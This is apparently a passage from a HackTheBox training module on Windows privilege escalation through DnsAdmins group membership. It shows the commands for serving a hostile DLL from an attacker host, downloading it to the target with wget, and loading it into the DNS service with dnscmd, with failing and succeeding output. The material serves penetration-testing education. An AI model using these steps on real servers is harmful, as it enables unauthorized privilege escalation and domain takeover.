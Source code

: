 #### Starting Local HTTP Server

Next, start a Python HTTP server.

```shell-session
slomkm@htb[/htb]$ python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

#### Downloading File to Target

```powershell-session
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Let's first see what happens if we use the `dnscmd` utility to load a custom DLL with a non-privileged user.

#### Loading DLL as Non-Privileged User

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this.

#### Loading DLL as Member of DnsAdmins

```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109           
```

#### Loading Custom DLL

After confirming group membership in the `DnsAdmins` group, we can re-run the command to load a custom DLL.

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

